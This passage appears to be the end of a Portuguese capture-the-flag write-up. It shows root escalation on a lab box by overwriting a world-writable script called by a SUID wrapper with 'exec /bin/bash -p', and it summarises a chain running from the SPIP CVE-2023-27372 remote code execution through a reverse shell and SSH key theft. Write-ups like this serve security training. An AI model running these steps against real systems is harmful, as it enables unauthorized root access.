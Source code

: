 ### Variante 2 — Abrir root shell direto

```bash
cp /opt/run_container.sh /opt/run_container.sh.bak

cat > /opt/run_container.sh <<'EOF'
#!/bin/bash
exec /bin/bash -p
EOF

chmod +x /opt/run_container.sh
/usr/sbin/run_container
# root shell imediata
```

> ℹ️ Por que o `bash -p`? Ele preserva privilégios efetivos quando invocado por um binário SUID (no caso, chamado indiretamente pelo wrapper).

---

## 👑 Root Flag

Com root obtido:

```bash
cd /root
ls
# root.txt  spip

cat /root/root.txt
# *****
```

---

## 🧩 Fluxo Final (Resumo)

1. Enumeração → `/spip` revela **SPIP 4.2.0**.
2. Exploit **CVE-2023-27372** → **RCE pre-auth** → **www-data** (reverse shell).
3. Loot de chave SSH → **think\@host**.
4. Dica AppArmor + SUID scan → **/usr/sbin/run\_container**.
5. **/opt/run\_container.sh** com **777** → overwrite → **SUID bash**.
6. Root shell + **root.txt**.

---

<div align="center">

### 🎉 Conclusão

Uma box excelente para consolidar:

* Enumeração Web → **/spip** e fingerprint do CMS
* Exploração de **SPIP 4.2.0** (CVE-2023-27372)
* Pós-exploração e **credential harvesting**
* **AppArmor hint** guiando à **escalada via wrapper SUID + script 777**
* Princípios de **SUID** e **Docker wrappers** mal projetados
